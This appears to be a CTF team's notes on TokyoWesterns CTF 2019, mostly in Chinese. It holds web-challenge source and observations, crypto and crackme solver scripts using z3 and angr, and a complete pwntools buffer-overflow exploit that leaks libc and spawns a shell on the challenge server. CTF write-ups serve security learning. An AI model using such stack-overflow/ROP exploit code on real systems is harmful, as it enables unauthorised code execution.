








# 2019 TokyoWesterns CTF 5th 2019

---

[TOC]

# 比赛信息

## 比赛地址

https://score.ctf.westerns.tokyo/problems?locale=en


## 比赛时间

2019/08/31 早上八点 — 2019/09/02 早上八点

---
# 签到


# WEB

## j2x2j | open | SOLVED: mote

xxe



```
<?php
include 'flag.php';

```




## phpnote | open | working: mote, mads
查看source，有提示源码
http://phpnote.chal.ctf.westerns.tokyo/?action=source


要想getflag需要isadmin的值为true,全等时1跟true不一样
```
if ($action === 'getflag') {
    $note->getflag();
}

//note->getflag()

public function getflag() {
        if ($this->isadmin === true) {
            echo FLAG;
        }
    }
```


cookie中的note的值为序列化后base64



在首页post数据，调用note对象的addnote方法

用array_push，用键值对存放

如果校验通过，就进行反序列化，否则$note::isadmin置为false


得想办法获得secret,然后伪造isadmin=1

https://meizjm3i.github.io/2019/08/01/%E5%88%A9%E7%94%A8Windows%20Defender%E4%BE%A7%E4%BF%A1%E9%81%93%E6%94%BB%E5%87%BB/
https://westerns.tokyo/wctf2019-gtf/wctf2019-gtf-slides.pdf

啊，我死了


## Slack emoji converter Kai | open | working: mote

看源码，提示source
http://slackemoji.chal.ctf.westerns.tokyo/source

```python
from flask import (Flask, render_template, request, redirect, url_for, make_response, ) 
import subprocess
import tempfile
import os 
def convert_by_imagemagick(fname): 
	proc = subprocess.run(["identify", "-format", "%w %h", fname], stdout = subprocess.PIPE, stderr = subprocess.PIPE) 
	out, err = proc.stdout, proc.stderr
	if len(out) == 0: 
		return None 
	w, h = list(map(int, out.decode("utf-8").split())) 
	r = 128 / max(w, h) 
	proc = subprocess.run(["convert", "-resize", f "{int(w*r)}x{int(h*r)}", fname, fname], stdout = subprocess.PIPE, stderr = subprocess.PIPE) 
	out, err = proc.stdout, proc.stderr 
	img = open(fname, "rb").read() 
	os.unlink(fname) 
	return img 


app = Flask(__name__)

@ app.route('/') 
def index(): 
	return render_template('index.html')

@ app.route('/source') 
def source(): 
	return open(__file__).read()

@ app.route('/policy.xml') 
def imagemagick_policy_xml(): 
	return open("/etc/ImageMagick-6/policy.xml").read()

@ app.route('/conv', methods = ['POST']) 
def conv(): 
	f = request.files.get('image', None) 
	if not f: 
		return redirect(url_for('index')) 
	ext = f.filename.split('.')[-1] 
	fname = tempfile.mktemp("emoji") 
	fname = "{}.{}".format(fname, ext) 
	f.save(fname) 
	response = make_response() 
	img = convert_by_imagemagick(fname) 
	if not img: 
		return redirect(url_for('index')) 
	response.data = img 
	response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename) 
	return response

if __name__ == '__main__': 
	app.run(host = "0.0.0.0", port = 8080)
```


view-source:http://slackemoji.chal.ctf.westerns.tokyo/policy.xml


## Oneline Calc | OPEN | working: mads

nginx/1.14.0 (Ubuntu)

calc.php 是一个流输出接口。前端通过`EventSource`接口与`calc.php`通信。

没找到源码，可能是通过`eval`实现的计算？

过滤了

```
{}
```
如果是字符会先转ascii码
输入`('>'>'<')+('>'>'<')`可以返回正确结果`2`

报错


# CRYPTO

## real-baby-rsa | SOLVED | working: yuriXO, mads

直接爆破每个字符。

```python
# flag = 'TWCTF{CENSORED}'
flag = ''
# # Public Parameters
N = 36239973541558932215768154398027510542999295460598793991863043974317503405132258743580804101986195705838099875086956063357178601077684772324064096356684008573295186622116931603804539480260180369510754948354952843990891989516977978839158915835381010468654190434058825525303974958222956513586121683284362090515808508044283236502801777575604829177236616682941566165356433922623572630453807517714014758581695760621278985339321003215237271785789328502527807304614754314937458797885837846005142762002103727753034387997014140695908371141458803486809615038309524628617159265412467046813293232560959236865127539835290549091
e = 65537

# # Encrypt the flag!
# for char in flag:
#     print(pow(ord(char), e, N))

with open("./output", 'r') as f:
    c = f.readlines()
    for f in c:
        for ch in range(32, 127):
            if(pow(ch, e, N) == int(f)):
                flag += chr(ch)
                print(flag)

print(flag)
    # print(int(c[-1], 10))

# TWCTF{padding_is_important}
```

## Simple Logic  | SOLVED | working: yuriXO

z3直接干。。。

```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

flag = 0x43713622de24d04b9c05395bb753d437

plain = [
    0x29abc13947b5373b86a1dc1d423807a, 0xeeb83b72d3336a80a853bf9c61d6f254,
    0x7a0e5ffc7208f978b81475201fbeb3a0, 0xc464714f5cdce458f32608f8b5e2002e,
    0xf944aaccf6779a65e8ba74795da3c41d, 0x552682756304d662fa18e624b09b2ac5
]

enc = [
    0xb36b6b62a7e685bd1158744662c5d04a, 0x614d86b5b6653cdc8f33368c41e99254,
    0x292a7ff7f12b4e21db00e593246be5a0, 0x64f930da37d494c634fa22a609342ffe,
    0xaa3825e62d053fb0eb8e7e2621dabfe7, 0xf2ffdf4beb933681844c70190ecf60bf
]


def encrypt(msg, key):
    mask = (1 << 128) - 1
    for i in range(765):
        msg = (msg + key) & mask
        msg = msg ^ key
    return msg


def decrypt(msg, key):
    mask = (1 << 128) - 1
    for i in range(765):
        msg = msg ^ key
        msg = (msg - key) & mask
    return msg


"""
from z3 import *
s = Solver()
key = BitVec('key', 128)
for p, e in zip(plain, enc):
    s.add(encrypt(p, key) == e)
if (s.check() == sat):
    m = s.model()
    print(m)
"""

key = 62900030173734087782946667685685220617

assert decrypt(encrypt(plain[0], key), key) == plain[0]

print("TWCTF{{{0}}}".format(hex(decrypt(flag, key))[2:]))
```

# REVERSE

## easy_crack_me | working | working: ycdxsb, mads
一些限制：
- 长度39
- "TWCTF{"开头，"}"结尾
- 中间部分只能为"0123456789abcdef"字符组成，个数分别为

```
3+2+2+0+3+2+1+3+3+1+1+3+1+2+2+3

400F40:
0x15E,0xDA,0x12F,0x131,0x100,0x131,0xFB,0x102

400F60:
0x52,0x0C,0x01,0x0F,0x5C,0x05,0x53,0x58

400F80:
0x01,0x57,0x07,0x0D,0x0D,0x53,0x51,0x51

400FA0:
0x129,0x103,0x12B,0x131,0x135,0x10B,0xFF,0xFF

128, 128, 255, 128, 255, 255, 255, 255, 128, 255, 255, 128, 128, 255, 255, 128, 255, 255, 128, 255, 128, 128, 255, 255, 255, 255, 128, 255, 255, 255, 128, 255
```

```python
from z3 import *
f = [BitVec('f%d'%i,8) for i in range(0,39)]

solver = Solver()
solver.add(f[0]==ord('T'))
solver.add(f[1]==ord('W'))
solver.add(f[2]==ord('C'))
solver.add(f[3]==ord('T'))
solver.add(f[4]==ord('F'))
solver.add(f[5]==ord('{'))
solver.add(f[38]==ord('}'))
solver.add(f[37]==53)
solver.add(f[7]==102)
solver.add(f[11]==56)
solver.add(f[12]==55)
solver.add(f[23]==50)
solver.add(f[31]==52)

solver.add(f[6]+f[8]+f[10]+f[12]+f[14]+f[16]+f[18]+f[20]+f[22]+f[24]+f[26]+f[28]+f[30]+f[32]+f[34]+f[36]==1160)

result = [0x15E,0xDA,0x12F,0x131,0x100,0x131,0xFB,0x102]
for i in range(0,8):
    solver.add(f[6+4*i]+f[6+4*i+1]+f[6+4*i+2]+f[6+4*i+3]==result[i])

result = [0x52,0x0C,0x01,0x0F,0x5C,0x05,0x53,0x58]
for i in range(0,8):
    solver.add(f[6+4*i]^f[6+4*i+1]^f[6+4*i+2]^f[6+4*i+3]==result[i])

result = [0x129,0x103,0x12B,0x131,0x135,0x10B,0xFF,0xFF]
for i in range(0,8):
    solver.add(f[6+i]+f[6+i+8]+f[6+i+2*8]+f[6+i+3*8]==result[i])

result = [0x01,0x57,0x07,0x0D,0x0D,0x53,0x51,0x51]
for i in range(0,8):
    solver.add(f[6+i]^f[6+i+8]^f[6+i+2*8]^f[6+i+3*8]==result[i])

result = [128, 128, 255, 128, 255, 255, 255, 255, 128, 255, 255, 128, 128, 255, 255, 128, 255, 255, 128, 255, 128, 128, 255, 255, 255, 255, 128, 255, 255, 255, 128, 255]

for i in range(32):
    if(result[i]==128):
        solver.add(f[i+6]>=97)
        solver.add(f[i+6]<=102)
    else:
        solver.add(f[i+6]>=48)
        solver.add(f[i+6]<=57)

num = [3, 2, 2, 0, 3, 2, 1, 3, 3, 1, 1, 3, 1, 2, 2, 3]
for i, ch in enumerate("0123456789abcdef"):
    count = 0
    for x in f:
        count = count + If(x == ord(ch), 1, 0)
    solver.add(count == num[i])
print solver.check()

result=solver.model()
print result
s = ""

for i in range(0,39):
    s+=chr(result[f[i]].as_long().real)
print s

```

`TWCTF{df2b4877e71bd91c02f8ef6004b584a5}`

angr也可以做，但本身对strchr不太支持，所以得NOP掉地址0x4007B1到0x400948，只需要做好约束就行了，不过从时间以及效率上来讲还是直接用z3来的痛快

```python
# -*- coding: UTF-8 -*-

import angr

import claripy

argv_chars = [claripy.BVS('argv_%d' % i, 8) for i in range(39)]
argv = claripy.Concat(*argv_chars)

p = angr.Project("./easy_crack_me",auto_load_libs=True)
state = p.factory.full_init_state(args=["./easy_crack_me", argv],
                                  add_options=angr.options.unicorn)

state.solver.add(argv_chars[0] == ord('T'))
state.solver.add(argv_chars[1] == ord('W'))
state.solver.add(argv_chars[2] == ord('C'))
state.solver.add(argv_chars[3] == ord('T'))
state.solver.add(argv_chars[4] == ord('F'))
state.solver.add(argv_chars[5] == ord('{'))
state.solver.add(argv_chars[38] == ord('}'))

state.solver.add(argv_chars[37] == ord('5'))
state.solver.add(argv_chars[7] == ord('f'))
state.solver.add(argv_chars[11] == ord('8'))
state.solver.add(argv_chars[12] == ord('7'))
state.solver.add(argv_chars[23] == ord('2'))
state.solver.add(argv_chars[31] == ord('4'))

result = [
    128, 128, 255, 128, 255, 255, 255, 255, 128, 255, 255, 128, 128, 255, 255,
    128, 255, 255, 128, 255, 128, 128, 255, 255, 255, 255, 128, 255, 255, 255,
    128, 255
]

for i in range(32):
    if (result[i] == 128):
        state.solver.add(argv_chars[i + 6] >= 97)
        state.solver.add(argv_chars[i + 6] <= 102)
    else:
        state.solver.add(argv_chars[i + 6] >= 48)
        state.solver.add(argv_chars[i + 6] <= 57)

num = [3, 2, 2, 0, 3, 2, 1, 3, 3, 1, 1, 3, 1, 2, 2, 3]
for i, ch in enumerate("0123456789abcdef"):
    count = 0
    for x in argv_chars:
        count = count + claripy.If(x == ord(ch), claripy.BVV(b'\x01'), claripy.BVV(b'\x00'))
    state.solver.add(count == num[i])

sm = p.factory.simulation_manager(state)

sm.explore(
    find=0x400E10,
    avoid=[
        0x400BD9, 0x400C27, 0x400d12, 0x400d7c,
        0x400DFC, 0x400777
    ])

for fo in sm.found:
    ans = []
    for ac in argv_chars:
        ans.append(ord(fo.solver.eval(ac, cast_to=bytes)))
    print("".join([chr(i) for i in ans]))
```

`TWCTF{df2b4877e71bd91c02f8ef6004b584a5}`

# PWN

## one_heap | closed | working: Doctor'yang

保护全没开，bof fsb随便搞
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import os, sys

# Setting at first
DEBUG = 3
LIBCV = 2.19
context.arch = "amd64"

context.log_level = "debug"
elf = ELF("./warmup",checksec=False)

# synonyms for faster typing
tube.s = tube.send
tube.sl = tube.sendline
tube.sa = tube.sendafter
tube.sla = tube.sendlineafter
tube.r = tube.recv
tube.ru = tube.recvuntil
tube.rl = tube.recvline
tube.ra = tube.recvall
tube.rr = tube.recvregex
tube.irt = tube.interactive

if DEBUG == 1:
    if context.arch == "i386":
        libc = ELF("/lib/i386-linux-gnu/libc.so.6",checksec=False)
    elif context.arch == "amd64":
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec=False)
    s = process("./warmup")
elif DEBUG == 2:
    if context.arch == "i386":
        libc = ELF("/root/toolchain/elf/glibc/glibc-"+str(LIBCV)+"/x86/libc.so.6",checksec=False)
        os.system("patchelf --set-interpreter /root/toolchain/elf/glibc/x86/glibc-"+str(LIBCV)+"/x86/ld-linux-x86-64.so.2 warmup")
        os.system("patchelf --set-rpath /root/toolchain/elf/glibc/glibc-"+str(LIBCV)+"/x86:/libc.so.6 warmup")
    elif context.arch == "amd64":
        libc = ELF("/root/toolchain/elf/glibc/glibc-"+str(LIBCV)+"/x64/libc.so.6",checksec=False)
        os.system("patchelf --set-interpreter /root/toolchain/elf/glibc/glibc-"+str(LIBCV)+"/x64/ld-linux-x86-64.so.2 warmup")
        os.system("patchelf --set-rpath /root/toolchain/elf/glibc/glibc-"+str(LIBCV)+"/x64:/libc.so.6 warmup")
    s = process("./warmup")
elif DEBUG == 3:
    libc = ELF("./libc6_2.27-3ubuntu1_amd64.so",checksec=False)
    ip = "nothing.chal.ctf.westerns.tokyo" 
    port = 10001
    s = remote(ip,port)

def pwn():
    rdi = 0x400773

    pl = "A"*264
    pl += p64(rdi)
    pl += p64(elf.got["gets"])
    pl += p64(elf.sym["puts"])
    pl += p64(0x4006BA)
    s.sla("pwn me :)\n", pl)

    s.r(267)

    libc.address = u64(s.r(6) + "\0\0") - libc.sym["gets"]
    info("libc.address 0x%x", libc.address)
    info("system 0x%x", libc.sym["system"])
    info("binsh 0x%x", libc.search("/bin/sh").next())

    pl = "A"*264
    pl += p64(libc.address + 0x4f2c5)
    #pl += p64(rdi)
    #pl += p64(libc.search("/bin/sh").next())
    #pl += p64(libc.sym["system"])
    s.sla("pwn me :)\n", pl)


    # puts 690
    # gets d80
    # setbuf 6b0

    # puts 9c0
    # gets 0b0
    # setbuf 4d0


    s.irt()
    #clean()

if __name__ == "__main__":
    pwn()
```


